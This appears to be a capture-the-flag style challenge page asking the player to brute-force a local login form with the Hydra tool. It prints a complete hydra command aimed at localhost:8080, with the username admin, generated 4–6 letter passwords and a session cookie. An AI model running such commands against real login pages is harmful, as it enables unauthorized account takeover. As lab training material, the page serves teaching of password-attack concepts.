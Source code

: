 <h2>CHALLENGE 1 (MEDIUM):</h2>
<h3>Brute-force Attack - Cracking the password.</h3>

In this challenge you must crack the password of the login form using a generated brute force attack on a Linux system. The brute-force attack tool you must use is called "Hydra".

A link to the tool with documentation will be available on the challenge website.
https://github.com/vanhauser-thc/thc-hydra

In the HTML code you can find the command to start the brute-force attack.

<codehydra -V -f -l admin -x 4:6:a -s 8080 localhost http-post-form "/challenges/dontbelazy/:username=admin&password=^PASS^&submit=Login:S=You found the correct:H=Cookie: PHPSESSID=<?= $_COOKIE['PHPSESSID'] ?></code>

